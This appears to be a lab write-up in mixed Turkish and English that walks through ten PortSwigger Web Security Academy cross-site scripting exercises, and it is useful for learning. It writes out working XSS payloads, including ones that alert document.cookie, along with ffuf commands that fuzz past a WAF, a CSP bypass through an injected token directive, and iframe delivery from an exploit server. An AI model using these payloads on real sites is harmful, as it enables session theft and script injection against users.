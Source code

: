 #### 1.Lab: Reflected XSS into HTML context with nothing encoded

Adımlar:
- Search bar'a `<script>alert(1)</script>` yazıyoruz
- Voila lab çözüldü

#### 2.Lab: Stored XSS into HTML context with nothing encoded

Description: Labda yorum özelliğinde bir XSS açığı olduğu söyleniyor

Adımlar:
- Herhangi bir post sayfasında bir yorum yazacağız
- `<script>alert(1)</script>` ifadesini yorum kısmına yazıyoruz
- Yorumu onayladığımızda lab çözülüyor
- Voila Lab solved

DOM Tanım: Document object model, xml ve html dosyalarıyla yapılandırılmş bir objeler ağacı olarak temsile eden ve etkileşime geçen bir programlama arayüzüdür.
#### 3.Lab: DOM XSS in `document.write` sink using source `location.search`

Labda search feature kullanılırken location.search'den gelen veri ile çağrılan document.write fonkisyonundan kaynaklanan bir XSS zafiyeti olduğu söyleniyor

Adımlar:
- We make a search in the search bar
- Afterwards we check the source of the webpage, we look up our search querry
- We see that it is located in the image below
![[Pasted image 20250521185315.png]]
- We see that whatever we enter into the search bar finds its way here
- to exploit this we write`"><svg onload=alert(1)>` in the search bar
- the `<svg>` tag is a tag that lets the user create graphics without referring to actual images
- the `onload` property here means that the moment this `<svg>` object is called upon in the DOM system the particular action written inside the `onload` property is activated

#### 4.Lab: DOM XSS in `innerHTML` sink using source `location.search`

In this lab it is stated that the application uses the `innerHTML` property to change the contents of a `<div>` object. We are gonna exploit this to insert an object into it.

Adımlar:
- We write anything inside the search bar
- we see that whatever we written inside the search bar is now located inside a `<span>` tag
- Knowing this we write `"><svg onload =alert(1)>` in the search bar
- tags like svg, iframe gibi tagler dom ile çağrıldığında onload function çağrılır
- bu durumda alert(1)
- Lab solved


#### 5.Lab: Reflected XSS into HTML context with most tags and attributes blocked

In this lab we have to find a tag that the application accepts, the application has a WAF that filters certain tags, we do that via fuzzing:

Steps:
- We do a fuzzing to find the right tag:
```
ffuf -u https://0a09009903d757f68090c68c00c40008.web-security-academy.net/?search=%22%3E%3CFUZZ+onload+%3Dalert%281%29%3E -w Html_tags.txt
```
- Now that we found the right tag which is the `<body>` tag we face another issue and that is to find the right attribute.
- To find the right attribute we do another fuzzing:
```
ffuf -u https://0a09009903d757f68090c68c00c40008.web-security-academy.net/?search=%22%3E%3Cbody+FUZZ+%3Dalert%281%29%3E -w Html_tag_attributes.txt
```
- Through this fuzzing we see that the `onresize` attribute is allowed
- Now we go to our exploit server and deliver this exploit to the victim:
```
<iframe src ="https://0a09009903d757f68090c68c00c40008.web-security-academy.net/?search=<body onresize = print(1)>" onload =this.style.width="100px">
```
- And Voila the lab is solved.

#### 6.Lab: Reflected XSS protected by CSP, with CSP bypass

Bu labda bizden CSP bypass yapmamız isteniyor. CPS directiveleri, hangi kaynaklardan gelen kaynakların çalıştırılıp çalıştırılmayacağını belirler. Bu genelde bu script-src ve script-src-elem directiveleri üzerinden yapılır. script-src javascript çalıştırılabilecek dosyalarını, script-src-elem ise src özelliğinin nasıl çalıştırılacağını belirler. Daha önce CSP bypass üzerine yapılan bir bug bounty denemesinde paypal'in report-uri directive'i içinde bir token parametresi olduğu görünüyor biz de bu token parametresini exploit etmeye çalışacağız

Adımlar:
- Arama barına `<script>alert("Let's go")</script>` yazdığımızda scriptiminizin çalışmadığını yani CSP tarafından engellendiğini göreceksiniz.
- Biz de URL'imizde bahsettiğimiz değişikllikleri yapacağız
- URL'i `search=<script>alert("Let's go")</script>&token=;script-src-elem 'unsafe-inline'` olarak değiştiryoruz
- Bu script-src-elem directive'i bize script etiketlerinin içine yazdığımız inline scriptleri çalıştırmamızı sağlıyor.


# 7.Lab: Reflected XSS into HTML context with all tags blocked except custom ones

In this lab we are asked to use a custom tag to execute a reflected xss attack. To do that  I have tried a few attributes and the on that worked was the `onfocus` attribute.

Adımlar:
* bir arama yapıyoruz ve aramadan elde ettiğimiz url'i kopyalıyoruz.
* URL'i aşağıdaki ibareye yazıyoruz:
```
location = 'https://0a7000170427b03980e2e9c800ba003a.web-security-academy.net/?search=<banner id =x onfocus= alert(document.cookie)>brotherhood with no banners</banner>#x';
```
- Bu ibareyi gönderiyoruz
- lab solved

#### 8.Lab: DOM XSS in `document.write` sink using source `location.search` inside a select element

URL olarak:
```
produc?productId=4&storeId="></select><img src=345 onerror=alert(1)>
```
giriyoruz ve lab çözülüyor.

#### 9.Lab: DOM XSS in jQuery anchor `href` attribute sink using `location.search` source

Labda bizden document.cookie alert etmemiz istenmekte. Labda JQuerry kütüphanesinin kullanılmakta olduğu söyleniyor ve `attr()` fonksiyonu ile bir `<a>` elemanının `href` değerini manipüle ederek bir XSS saldırısı gerçekleştirmemiz isteniyor.

Adımlar:
- Feeadback gönderme özelliğine aşağıdaki fonksiyonu giriyoruz:
```javascript
$(function() { $(a).attr("href",(new URLSearchParams(window.location.search)).get('returnPath')); });
```
- Bu fonksiyon `<a>` etiketlerinin `href` özelliklerinin içeriğini, location.search ile elde ettiğimiz URL'in returnPath değeriyle değiştirmemizi sağlıyor.
- Bu fonksiyonu da URL üzerinden çağırıyoruz : `?returnPath=javascript:alert(document.cookie)`
- Böylece Lab çözülmüş oldu.

#### 10.Lab: DOM XSS in jQuery selector sink using a hashchange event

Bu labda `location.hash` özelliğini kullanarak `print()` fonksiyonunu çağırmamız gerektiğini söylüyor.

Adımlar:
- exploit server üzerine `<iframe src="https://0adc0061045ca021825429f400de00d9.web-security-academy.net#" onload="this.src+='<img src=1 onerror=print(1)>'"></iframe>` yazıyoruz ve yolluyoruz.
- Bu hashchange event ile bir fonksiyon çağırabiliyoruz.
- Genelde hashchange event'i bir elemana scroll etmek için kullanılır.


